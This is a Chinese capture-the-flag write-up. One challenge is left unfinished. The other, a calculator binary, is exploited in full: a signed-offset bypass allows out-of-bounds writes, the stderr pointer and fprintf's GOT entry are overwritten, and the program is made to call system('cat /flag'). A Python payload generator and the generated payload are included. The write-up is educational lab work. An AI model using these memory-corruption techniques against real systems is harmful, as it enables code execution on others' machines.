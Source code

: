 ## 链上猎手 （未完成）

没看题  

## It's MyCalculator!!!!!

checksec看到开了pie，got表可写  

GET和PUT可以选定偏移，IDA逆向发现此处按照有符号数检查，实测此处的atoi对于unsigned int的大整数可以得到负数绕过检查实现负向溢出，相当于获得了bss段上缓冲区之前相对位置的任意内存读写。  

got表可写，这些函数只有fprintf的第一个参数容易控制（stderr，恰好在bss段上溢缓冲区之前的位置），而且fprintf的触发时机可控。  

got表已填充的项经过加减可以得到libc的地址，got表未填充的项经过加减可以得到程序本身的地址（bss段包含在其中）。  
预先在bss段的空闲位置写入"cat /flag\0"字符串，然后利用程序本身的地址计算出这个写入字符串的地址，覆盖到bss段stderr的位置；再利用libc的地址计算出system函数的地址，写入fprintf的got表项的位置。最后触发fprintf(stderr, ...)的调用，实际上调用的是system("cat /flag")，即可获得flag。  
注意GET和PUT的读写以4字节为单位，8字节的地址需要分两次。  

整个过程不涉及二次读取stdin，因此没有遇到官方writeup提到的stdin tty缓冲造成getc读取失败的问题，也不需要额外的输入填充。  

生成payload的代码：  
```python
s = (""
f"PUT {(-4) & 0xffffffff} {u32(b'cat ')}\n"  # 0x55555555a0f0
f"PUT {(-3) & 0xffffffff} {u32(b'/fla')}\n"
f"PUT {(-2) & 0xffffffff} {ord('g')}\n"

f"PUT 0 GET {(-44) & 0xffffffff} + {0x55555555a100-0x5555555550d6}\n"  # result_buffer[0] = LODWORD(&result_buffer)
f"PUT 1 GET {(-43) & 0xffffffff}\n"  # result_buffer[1] = HIDWORD(&result_buffer)

# stderr = 0x55555555a0f0
f"PUT {(-8) & 0xffffffff} GET 0 - 16\n"
f"PUT {(-7) & 0xffffffff} GET 1\n"

# result_buffer[2] = &system_libc
f"PUT 2 GET {(-48) & 0xffffffff} - {0x524c0-0x4c3a0}\n"
f"PUT 3 GET {(-47) & 0xffffffff}\n"

# fprintf@got = &system_libc
f"PUT {(-44) & 0xffffffff} GET 2\n"
f"PUT {(-43) & 0xffffffff} GET 3"

"")

print(s, end="")
```

生成的payload：（注意最后一行没有回车，目的是语法错误触发对fprintf的调用）  
```
PUT 4294967292 544498019
PUT 4294967293 1634493999
PUT 4294967294 103
PUT 0 GET 4294967252 + 20522
PUT 1 GET 4294967253
PUT 4294967288 GET 0 - 16
PUT 4294967289 GET 1
PUT 2 GET 4294967248 - 24864
PUT 3 GET 4294967249
PUT 4294967252 GET 2
PUT 4294967253 GET 3
```
base64之后：  
```
```